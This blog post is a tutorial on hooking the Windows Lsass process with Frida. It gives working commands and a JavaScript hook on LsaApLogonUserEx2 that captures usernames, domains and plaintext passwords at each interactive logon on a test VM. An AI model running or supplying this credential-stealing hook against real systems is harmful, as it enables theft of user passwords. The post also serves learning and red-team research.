 ```yaml
---
title: Dumping Lsass with... Frida? (Part 1)
description: A blog about dynamic instrumentation of Lsass for fun and profit!
---
```


# Dumping Lsass with... Frida? (Part 1)

Recently I've been getting into [Frida](https://frida.re/), a great debugging and dynamic instrumentation tool with cross-platform support. Before I looked into it, I'd only ever heard of Frida as a tool for hacking mobile apps - I'd never considered it for anything else. However, I think Frida has just as much potential as a rapid prototyping tool for reverse engineering and exploit development. It's agile, portable and fast, which makes it an excellent choice for experimenting and tinkering with a process.

I've had advice in the past that writing your own Mimikatz implementation is one of the best ways to get familiar working with memory hacking in Windows. A credential dumper that requires you to execute and connect to a Frida server on the target probably wouldn't be your first choice on an engagement. However, it's also not something I've seen anyone else doing, and I hoped that the end result would be a kind of "intermediary" tool that could be trivially ported to other languages. 

In this first part, we'll focus on taking advantage of Frida's dynamic instrumentation features to backdoor Lsass remotely. In future articles, we'll explore dumping credentials directly from Lsass memory.

## Step 1: Exploring Lsass

You can find a wealth of tools and tutorials out there which discuss how Mimikatz works and how to dump credentials from the process memory of Lsass. I wanted to make a start completely blind, though, and see what I could discover with Frida alone.

To start with, I spun up a Windows 10 VM and launched the latest version of Frida server as Administrator:

```powershell
> .\frida-server.exe -l 0.0.0.0
```

This opens a debugging server on port 27042, which we can connect to using Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe
```

One of Frida's most powerful features is its dynamic instrumentation functionality, which lets us hook almost any function used by a process. Before we can do that, though, we'll need some basic situational awareness. There are a lot of different modules loaded by the *lsass.exe* process, which we can enumerate using `Process.enumerateModules()`. Here's just one of the results:

```text
    {
        "base": "0x7ffd1ca30000",
        "name": "msv1_0.DLL",
        "path": "C:\\Windows\\system32\\msv1_0.DLL",
        "size": 483328
    },
```

Out of the many possible options, this one stands out - it's the Microsoft Authentication Package, which is invoked by LSA when a user performs an interactive logon. According to [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

> The MSV1_0 package checks the local security accounts manager (SAM) database to determine whether the logon data belongs to a valid security principal and then returns the result of the logon attempt to the LSA.

If we're looking to hook into the authentication logic called by Lsass, this seems like a pretty good place to start.

## Step 2: Hooking MSV1_0

So, now we have a good idea of which module we want to target, but how do we know which functions to hook in order to extract credentials? This is where *frida-trace* comes to the rescue. Instead of writing dozens of boilerplate scripts to inject into each possible function, we can simply specify the module we're interested in and hook all functions within it:

```bash
frida-trace -H 192.168.1.120 lsass.exe -i 'msv1_0.DLL!*'
```

We leave this running while we invoke an interactive logon somewhere on the target VM (i.e. using the *runas* command), and sure enough:

![a screenshot of various hooked functions including LsaApLogonUserEx2](/img/tracing-msv1_0.png)

I decided to go with the obvious choice here, and target the *LsaApLogonUserEx2()* function. Luckily for us, this function is actually [documented in the MSDN](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-lsa_ap_logon_user_ex2). That will make hooking it a lot easier, as we know exactly what the arguments and expected return values are.

```text
LSA_AP_LOGON_USER_EX2 LsaApLogonUserEx2;

NTSTATUS LsaApLogonUserEx2(
  [in]  PLSA_CLIENT_REQUEST ClientRequest,
  [in]  SECURITY_LOGON_TYPE LogonType,
  [in]  PVOID ProtocolSubmitBuffer,
  [in]  PVOID ClientBufferBase,
  [in]  ULONG SubmitBufferSize,
  [out] PVOID *ProfileBuffer,
  [out] PULONG ProfileBufferSize,
  [out] PLUID LogonId,
  [out] PNTSTATUS SubStatus,
  [out] PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  [out] PVOID *TokenInformation,
  [out] PUNICODE_STRING *AccountName,
  [out] PUNICODE_STRING *AuthenticatingAuthority,
  [out] PUNICODE_STRING *MachineName,
  [out] PSECPKG_PRIMARY_CRED PrimaryCredentials,
  [out] PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials
)
```

Armed with this information, we can see that the thing we probably care about is the *PrimaryCredentials* variable, which is the 15th argument passed to the function. Now we know enough to write our own Frida script:

```text
var msv = Process.getModuleByName("msv1_0.DLL");
var logonUser = msv.getExportByName("LsaApLogonUserEx2");

Interceptor.attach(logonUser, {
	onEnter: function(args) {
		this.primaryCredentials = args[14];
	},
	onLeave: function(retval) {
		console.log("Address of primary credentials is " + this.primaryCredentials);
	}
});
```

So far, the script is pretty simple. We identify the address of the function and attach to it with Frida's Interceptor. When the function is entered, we save the address of the PrimaryCredentials array. When the function exits, we print the address. To test it out, simply inject the script into Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe -l LsaApLogonUserEx2.js
```

And invoke another interactive logon.

## Step 3: Parsing PrimaryCredentials

So, now we can hook the *LsaApLogonUserEx2()* function and get a pointer to the PrimaryCredentials structure. How do we turn that into actual credential information? The PrimaryCredentials structure is of type *PSECPKG_PRIMARY_CRED*, which means it's a pointer to a *SECPKG_PRIMARY_CRED* struct. Happily for us, that struct is [documented for us as well](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred):

```text
typedef struct _SECPKG_PRIMARY_CRED {
  LUID           LogonId;
  UNICODE_STRING DownlevelName;
  UNICODE_STRING DomainName;
  UNICODE_STRING Password;
  UNICODE_STRING OldPassword;
  PSID           UserSid;
  ULONG          Flags;
  UNICODE_STRING DnsDomainName;
  UNICODE_STRING Upn;
  UNICODE_STRING LogonServer;
  UNICODE_STRING Spare1;
  UNICODE_STRING Spare2;
  UNICODE_STRING Spare3;
  UNICODE_STRING Spare4;
} SECPKG_PRIMARY_CRED, *PSECPKG_PRIMARY_CRED;
```

This gives us all the information we need to write our own parser in Frida. We can "walk" through the struct by starting from our pointer and adding the size of each struct member to get to the next one. For example, the size of a *LUID* struct is 0x8, so we can do:

```javascript
var logonId = this.primaryCredentials;
var downLevelName = logonId.add(0x8);
```

By iterating through in this way, we can eventually get pointers to the members we actually care about: *DownLevelName*, *DomainName*, *Password* and *OldPassword*. Each of these elements is a *UNICODE_STRING* struct, which requires a bit of parsing themselves. The final parsing function is as follows:

```javascript
function parsePrimaryCredentials(ptr) {
	// Parse the SECPKG_PRIMARY_CRED structure pass to LsaApLogonUserEx2. 64-bit only.
	// Input: a pointer to the SECPKG_PRIMARY_CRED structure to be parsed.
	
	var size_luid = 0x8; // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-_luid
	var size_unicode_string = 0x10; // https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/shared/ntdef/unicode_string.htm
	
	// Reference for struct members:
	// https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred

	// Calculate the address of each member by adding the sizeof the previous member.
	var logonId = ptr;
	var downLevelName = logonId.add ( size_luid );
	var domainName = downLevelName.add( size_unicode_string );
	var password = domainName.add( size_unicode_string );
	var oldPassword = password.add( size_unicode_string );

	// Read the length from each unicode string. Divide by 2 because we are reading UTF 16 strings.
	// Length is located at offset 0x0 in the UNICODE_STRING struct.
	var downLevelNameLength = downLevelName.readUShort() / 2;
	var domainNameLength = domainName.readUShort() / 2;
	var passwordLength = password.readUShort() / 2;
	var oldPasswordLength = oldPassword.readUShort() / 2;

	// Use the length values to read the correct number of bytes from each unicode string.
	// Buffer is located at offset 0x8 in the UNICODE_STRING struct.
	var downLevelNameBuffer = downLevelName.add(0x8).readPointer().readUtf16String(downLevelNameLength);
	var domainNameBuffer = domainName.add(0x8).readPointer().readUtf16String(domainNameLength);
	var passwordBuffer = password.add(0x8).readPointer().readUtf16String(passwordLength);
	var oldPasswordBuffer = oldPassword.add(0x8).readPointer().readUtf16String(oldPasswordLength);

	//Return results.
	var output = {
		"sam_account": downLevelNameBuffer,
		"domain": domainNameBuffer,
		"password": passwordBuffer,
		"old_password": oldPasswordBuffer
	}
	return output;
}
```

And the final result when running it against my Windows 10 VM and initiating an interactive logon:

![a screenshot of dumped credentials from a user logon](/img/dumping-msv1_0.png)

## Conclusion

Hooking functions and changing their behaviour is Frida's bread and butter, and we've demonstrated just how easy it is to backdoor Lsass with Frida. All you need to do so is a little bit of Javascript, a little bit of C struct knowledge, and local admin. In the next part, we'll move away from hooking functions. Instead, we'll look into replicating Mimikatz functionality by extracting credentials directly from memory.

